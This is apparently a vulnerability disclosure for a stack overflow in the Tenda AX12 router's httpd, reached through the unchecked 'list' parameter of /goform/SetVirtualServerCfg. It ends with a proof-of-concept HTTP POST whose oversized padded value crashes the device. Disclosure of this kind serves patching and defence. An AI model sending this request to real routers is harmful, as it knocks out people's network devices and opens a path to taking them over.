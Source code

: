 ### **Overview**:
Affected Device: Tenda AX12 V1.0
Affected Firmware Version: V22.03.01.46
Impact: Denial of Service (DoS) attack, stack overflow leading to potential root shell access.
Firmware download link: https://www.tenda.com.cn/download/detail-3621.html

![](xz.png)

### **Vulnerability**:
### **Vulnerability**:

The vulnerability is located in `/goform/SetVirtualServerCfg` where the request parameter `list` does not have a length restriction, ultimately leading to a stack overflow. The vulnerable function `sub_43B1B4` is present in the `httpd` file.

![](v1.png)

The vulnerability exists in `sub_43AF3C`:

![](v2.png)

As we can see, the request parameter `list` is passed to the variable `v3`, and since there is no length restriction on the variable `v3`, the subsequent `sscanf` function separates the value of `v3` using commas as delimiters and assigns them to `v12, v11, v10, v9`. These variables only require a certain length of padding to cause a stack overflow, which can easily lead to a denial of service attack. Furthermore, by constructing a suitable exploit, it is possible to gain shell access. The vulnerability is depicted in the following image:

![](vuln3.png)

### **POC**:
~~~
POST /goform/SetVirtualServerCfg HTTP/1.1
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 23
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Host: 192.168.122.15
Origin: http://192.168.122.15
Proxy-Connection: keep-alive
Referer: http://192.168.122.15/index.html
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
X-Requested-With: XMLHttpRequest

list="a"*0x2000
~~~
### **Impact Effect**:


![](after.png)

